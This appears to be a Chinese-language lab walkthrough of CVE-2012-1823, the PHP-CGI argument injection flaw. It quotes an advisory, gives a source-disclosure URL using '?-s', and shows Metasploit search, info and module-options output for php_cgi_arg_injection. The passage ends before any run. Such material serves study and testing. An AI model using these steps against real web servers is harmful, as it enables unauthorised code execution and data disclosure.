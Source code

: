 > According to the PHP site, when PHP is used in a CGI-based setup (such as Apache's mod_cgid), php-cgi receives a processed query string parameter as command-line argument, which allows command-line switches, such as -s, -d or -c, to be passed to the php-cgi binary, which can be exploited to disclose source code and obtain arbitrary code execution. Therefore, a remote unauthenticated attacker could obtain sensitive information, cause a DoS condition, or may be able to execute arbitrary code with the privileges of the web server.
> 
> A common example of this vulnerability will allow disclosure of source code when the following URL is visited: http://localhost/index.php?-s.

为了深入了解可以参考P牛的[PHP-CGI远程代码执行漏洞（CVE-2012-1823）分析](https://www.leavesongs.com/PENETRATION/php-cgi-cve-2012-1823.html)。

简单搜索：

```
msf > search cve-2012-1823

Matching Modules
================

   Name                                      Disclosure Date  Rank       Description
   ----                                      ---------------  ----       -----------
   exploit/multi/http/php_cgi_arg_injection  2012-05-03       excellent  PHP CGI Argument Injection
```

通过

```
msf > use exploit/multi/http/php_cgi_arg_injection
msf exploit(multi/http/php_cgi_arg_injection) > info
```

也能获得一些信息：

```
Description:
  When run as a CGI, PHP up to version 5.3.12 and 5.4.2 is vulnerable
  to an argument injection vulnerability. This module takes advantage
  of the -d flag to set php.ini directives to achieve code execution.
  From the advisory: "if there is NO unescaped '=' in the query
  string, the string is split on '+' (encoded space) characters,
  urldecoded, passed to a function that escapes shell metacharacters
  (the "encoded in a system-defined manner" from the RFC) and then
  passes them to the CGI binary." This module can also be used to
  exploit the plesk 0day disclosed by kingcope and exploited in the
  wild on June 2013.
```

### Exploit

```
msf exploit(multi/http/php_cgi_arg_injection) > show options

Module options (exploit/multi/http/php_cgi_arg_injection):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   PLESK        false            yes       Exploit Plesk
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                         yes       The target address
   RPORT        80               yes       The target port (TCP)
   SSL          false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI                     no        The URI to request (must be a CGI-handled PHP script)
   URIENCODING  0                yes       Level of URI URIENCODING and padding (0 for minimum)
   VHOST                         no        HTTP server virtual host

```